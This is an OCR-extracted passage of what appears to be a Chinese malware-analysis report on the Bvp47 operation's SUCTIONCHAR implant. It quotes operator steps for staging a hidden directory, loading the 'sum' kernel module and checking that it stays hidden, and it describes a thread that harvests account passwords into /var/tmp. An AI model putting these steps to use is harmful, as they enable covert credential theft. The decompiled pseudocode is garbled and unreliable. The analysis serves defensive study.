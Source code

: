 # SUCTIONCHAR will go away at reboot # if offset involved with target, must set op box time to match target time  

# INSTALLING SUCTIONCHAR   
uname -a   
isainfo -V  

-cd/tmp/.scsi cp /usr/sbin/modload ml cp /usr/sbin/modinfo mi  

### if running 32 AND 64 bit, upload 64 bit:   
# 64 bit   
-put /current/up/sparcv9/sum sum   
# else 32 bit   
-put/current/up/sum sum   
-lt sum   
### install it:   
./ml sum  

### make sure sum doesn't show up in modinfo: /mi  

“饮茶”（Suctionchar_Agent文件本身既可以使用默认配置，也可以从外部读取配置文件，文件格式主要包括3.x以上版本的xml格式和早期的conf格式。  

3.x以上版本的xml格式（“Linux\bin\suctionchar_configure.xml”）：  

![](https://cdn-mineru.openxlab.org.cn/extract/11c1673a-23fa-4bfd-b69a-b8199525982a/ba4f49b656ddaed58934a3ae76bcd0a3605100acfbd5ef97340430a83dedef65.jpg)  

“Linux\doc\old\etc\suctionchar.sample.filter.conf” ：  

![](https://cdn-mineru.openxlab.org.cn/extract/11c1673a-23fa-4bfd-b69a-b8199525982a/311c5703e7d71b78b69e6ba13f4d0cd51d6e0e185ce8eaf49373b478ffd813a7.jpg)  

“饮茶”（suctionchar_configure）将生成“dc9cb44a723d0e75201d933159834173“文件，该文件供Suctionchar_Agent使用：  

# “电幕行动”（Bvp47）技术细节报告（二）——关键组件深度揭秘  

usage:./suctionchar_configure__v__3.3.10.3_x86-1inux-centos-5.7[XML_coNFIG URATION_FILE |-r ］  

This tool is used to generate a SUCTIONCHAR binary configuration file from an XML configuration specification.The XML data is read from standard input if nofile specified on the command line  

This tool can also be used to verify a generated binary file by using the -r option This tool will always write to and read from the file./dc9cb44a723d0e 75201d933159834173  

#### 密码获取线程  

在“饮茶”（Suctionchar_Agent）中存在一个独立的线程，与内核模块sum保持通信，接收账号密码并写入到/var/tmp/文件夹中，即sub_8049EF0函数内部：  

case 1: $v6~=~5$ $\vee5=$ break; case 2: $v_{\textsf{b}}=\textsf{8}$ $v5=$ break; case 3: $v6~=~5$ $\vee5=$ break; default: $v6=8.$ $\downarrow5=$ break; } } else { $=$ } { else } $\vee11=$ $v6$ $)\vee8=\theta.$ break; if（ sub_804C840(\*(_DWORD \*)v8，v12）） break; break; break; break; if （ sub_804c900(v8[0],v1）） break; if （ sub_804C730(v8[0],v11）) break; $=$ sub_804AEE0(\*(_DWORD \*)v8, sub_80497E0, 0); break; $^{++}$ } return 257;  
